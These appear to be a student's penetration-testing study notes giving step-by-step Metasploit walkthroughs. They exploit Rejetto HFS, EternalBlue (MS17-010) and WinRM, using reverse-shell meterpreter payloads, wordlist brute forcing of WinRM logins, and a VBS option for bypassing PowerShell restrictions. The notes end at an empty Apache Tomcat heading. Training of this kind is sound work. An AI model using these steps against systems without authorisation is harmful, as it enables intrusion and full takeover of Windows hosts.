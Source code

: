 

### Exploiting A vulnerable HTTP File server 

Http File server
- Web server that is designed for file & document sharing 
	- you can only host files (not websites etc)
	- webserver can be used for files and doc but can also be utilized to host a website
- HTTP file servers run on port 80 and use HTTP protocol for underlying communication 
- Rejetto HFS is a popular free and open source HTTP file server that can be setup on Windows and Linux 
- Rejetto HFD V2.3 is vulnerable to remote command and execution attacks 
- MSF has an exploits module that we can utilize to gain access to the target system hosting the HFS 
  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds

1. start up `postgreql` database 
2. start up `msfconsole` 
3. create workspace: `workspace -a HFS`
4. set up global variable: `setg rhosts target `
5. start with nmap scan: `db_nmap -sS -sV -O target ` the results will be stored in workspace 
6. directly search in msfconsole for module: `search type:exploit name:rejetto `
7. `use  exploit/windows/http/rejetto_hfs_exec ` -> `run` 
8. We can set payload to: `set payload windows/x64/meterpreter/reverse_tcp `
9. set `LPORT` and `LHOST` -> `run` 


### Exploiting the Windows MS17-010 SMB Vulnerability 
- the name of the exploit is EternalBlue 
- EternalBlue is a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is part of 
- Takes advantage of vulnerability in Windows SMBv1 
- used in wannacry attack 
- Eternal Blue has MSF auxiliary module that can be used to check if a target system is vulnerable 
- Important: The Eternal Blue exploit will give us a *priviliged* meterpreter session on target system instead of a standard non-priviliged meterpreter session. This means complete control over the target system 

1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -O target` 
5) `services` (show the identified services in nmap)
6) find module that can see if system is vulnerable: `search type: auxiliary name: EternalBlue`
7) `use aux/scanner/smb/smb_ms17_010 `
8) if the results indicate that the system is vulnerable, look for the exploit: `search type:exploit name:EternalBlue ` --> `exploit/windows/smb/ms17_010_eternalblue`
9) check priviliged: `getuid` 
   (NT) AUTORITY SYTEM = highest priviliged possible (elevated meterpreter session no need for priviliged escalation)


### Exploiting WinRM (Windows Remote Management Protocol)

- WinRM is used for: 
	- Remotely access and interact with Windows hosts on a local network 
	- Remotely access and execute commands on Windows systems on the internet 
	- Manage and configure Windows system remotely 
- uses tcp port 5985 and 5986 
- Exploiting WinRM
	- WinRM implements access control and security for communication between systems through various forms of authentication 
	- Utilize the MSF to identify WinRM users and their passwords as well as execute commands on the target system 
	- Utilize a MSF WinRM exploit module to obtain a meterpreter session on the target system 


1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -p- -O target` 
5) `services`  (port 5985 of 5986 is winrm)
6) check authentication methods supported on target: `search type: auxiliary name: winrm` 
7) `use aux/scanner/winrm/winrm_auth_methods` --> `run` 
   ![[Pasted image 20230824215722.png]]
	Negotiate protocol supported, basic protocol supported means that we can do a bruteforce on the username and passwords. 
8) prepare the bruteforce: `search winrm_login` -> `use auxiliary/scanner/winrm/winrm_login `
	1) set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	2) set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
9) when you have a hit on bruteforce, we will try to use the credentials `search winrrm_cd ` 
	1) `use auxiliary/scanner/winrm/winrm_cmd `
	2) `set USERNAME administrator `
	3) `set PASSWORD tinkerbell `
	4) specify command to run on target system to confirm that we have access: `set CMD whoami`
10) get meterpreter session through module: winrm_script 
	1) use exploit/windows/winrm/winrm_script_exec 
	2) set passwords,targetip,targeturi,username,lhost,lport 


![[Pasted image 20230824220529.png]]
When you have an issue with runtime -> set the force VBS (visual basic option) instead of the powershell command stager: `set FORCE_VBS true `. This can be useful if PowerShell is restricted or if VBS is more likely to bypass security controls on the target system. VBS is a scripting language developed by Microsoft. It's often used for administrative tasks and automation on Windows systems. In the context of penetration testing, it can be a viable alternative to PowerShell for executing commands or scripts on a target Windows machine. **PowerShell Command Stager**: PowerShell is a powerful scripting language on Windows systems. A "command stager" in Metasploit is a technique for delivering and executing payloads. However, in some scenarios, PowerShell may be restricted or blocked by security measures on the target system. 











###  Exploiting Vulnerable Apache Tomcat Web server 


